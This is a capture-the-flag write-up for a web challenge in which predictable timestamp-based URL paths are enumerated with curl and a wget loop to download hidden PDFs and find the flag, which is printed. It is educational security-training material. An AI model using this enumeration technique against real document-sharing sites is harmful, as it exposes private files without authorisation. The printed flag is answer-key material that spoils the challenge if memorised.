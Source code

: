 Documents Heaven
================

**Solution author:** https://twitter.com/s_persianov

**Description:** We are a new startup aiming to make documents sharing a very easy and pleasant experience. 
All your documents are stored securely with us! [Link](http://docsheaven.1337.md/)

Flag looks like: `1337.MD{`*something_random_or_not*`}`

At the first glance this site looks very static, except one thing: The Manifesto. It is a PDF file, which you can 
download from 
[http://docsheaven.1337.md/4fdc5cd1b3130a18cff4ba052eb0ee62](http://docsheaven.1337.md/4fdc5cd1b3130a18cff4ba052eb0ee62)

Several failed trials to modify the `4fdc5cd1b3130a18cff4ba052eb0ee62` part and nothing =)).

Let's take a look at server's response when we download this file.

```bash
$ curl -I -L http://docsheaven.1337.md/4fdc5cd1b3130a18cff4ba052eb0ee62
HTTP/1.1 301 Moved Permanently
Server: nginx
Date: Sun, 22 Sep 2019 10:05:44 GMT
Content-Type: text/html
Content-Length: 178
Connection: keep-alive
Location: http://docsheaven.1337.md/1513123200/Document1.pdf
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Sep 2019 10:05:44 GMT
Content-Type: application/pdf
Content-Length: 37537
Last-Modified: Wed, 11 Sep 2019 07:12:20 GMT
Connection: keep-alive
ETag: "5d789e54-92a1"
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Accept-Ranges: bytes
```

The `nginx` server in the backend actually redirects us to `http://docsheaven.1337.md/1513123200/Document1.pdf`.
What if we change `Document1.pdf` to let's say `Document2.pdf`? **Fail**

What about `1513123200`? This looks like a Unix Timestamp, which points to `December 13, 2017 12:00:00 AM`. On the
main page, we actually see `December 13, 2017` to be the date when the manifesto was actually uploaded.

The document we are interested in is probably the one uploaded from a `@1337.md` email address, on `13.09.2019`.
Converting this to Unix Timestamp gives us `1568332800`

Let's try and access `http://docsheaven.1337.md/1568332800/Document1.pdf`... JackPot!:

![image](https://user-images.githubusercontent.com/51073630/65385709-adc0c480-dd29-11e9-83d6-69893b26c914.png)

- Document2.pdf: **Boom**
- Document3.pdf: **Boom**
- Docuemnt4.pdf: **Boom**
- Document5.pdf: **Boom**
- `[...]` you know where this is going =))

```bash
for i in {0..255}; do wget http://docsheaven.1337.md/1568332800/Document${i}.pdf; done
```

Junk, junk, memes, more memes... and we get the Document133.pdf which contains our flag: 
`1337.MD{enumerate_and_download!!1!11!!}`
